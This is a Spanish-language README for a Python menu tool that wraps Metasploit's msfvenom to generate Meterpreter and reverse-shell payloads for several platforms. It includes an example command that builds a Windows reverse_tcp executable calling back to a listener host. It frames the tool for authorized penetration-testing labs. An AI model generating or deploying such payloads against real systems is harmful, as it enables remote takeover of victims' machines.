



# Generador de Payloads con msfvenom (Python)

Herramienta interactiva para generar rápidamente payloads de Metasploit (`msfvenom`) con menú claro, colores, arquitectura 32/64 bits y ejecución automática. Pensada para laboratorios y prácticas de ciberseguridad con autorización.

## Requisitos
- Python 3.8 o superior
- Metasploit Framework instalado y `msfvenom` accesible en `PATH`
  - Kali: viene preinstalado
  - Ubuntu/Debian: `sudo apt install metasploit-framework`
  - Windows: instalador oficial en https://www.metasploit.com/download
- Opcional: `adb` si vas a probar APKs en Android

## Instalación
1. Clona el repositorio
   ```bash
   git clone https://github.com/<tu-usuario>/msfvenom
   cd msfvenom
   ```
2. Ejecuta el script
   ```bash
   python script.py
   ```

## Uso rápido
Al abrir el programa, verás el menú principal:

- `1` Listar todos los payloads disponibles
- `2` Filtrar solo los payloads para Windows
- `3` Generar payload `.exe` rápido
- `4` Windows | `5` Linux | `6` Android | `7` MacOS | `8` PHP/PowerShell/Personalizado
- `9` Guía rápida | `0` Salir

### Opción 2: Payloads de Windows (mejorada)
- Muestra los 15 payloads más usados en dos columnas, con colores y descripción.
- Te pide arquitectura: `32 bits` o `64 bits` (si existe variante x64, la aplica).
- Solicita `LHOST`, `LPORT` y el nombre del archivo.
- Ejecuta `msfvenom` y guarda el archivo en el directorio actual.

Ejemplo:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f exe -o prueba.exe
```

### Persistencia y registro
- Guarda el último `LHOST/LPORT` en `lab_config.json` para sugerirlos en próximas ejecuciones.
- Registra cada comando generado en `payload_log.txt`.
- Muestra resumen del archivo creado (ruta absoluta y tamaño).

## Consejos de uso
- Usa Windows Terminal o una terminal con soporte ANSI si no ves colores.
- En payloads tipo PowerShell (`.ps1`) se usa redirección `>` en vez de `-o`.
- En payloads tipo bind (TCP/UDP), `LHOST` no se utiliza; el script lo maneja automáticamente.

## Ética y legal
Esta herramienta es para fines educativos, investigación y pruebas controladas. Úsala solo en entornos propios o con permiso explícito del propietario. No la utilices para actividades ilícitas.

## Problemas comunes
- "msfvenom no está en PATH": verifica instalación y agrega la ruta de `msfvenom` a tu `PATH`.
- En Windows, si ves códigos raros en lugar de color, usa PowerShell/Windows Terminal.

## Créditos
- Autor: Aaron G
- Arte ASCII opcional desde `ascii-art (1).txt`




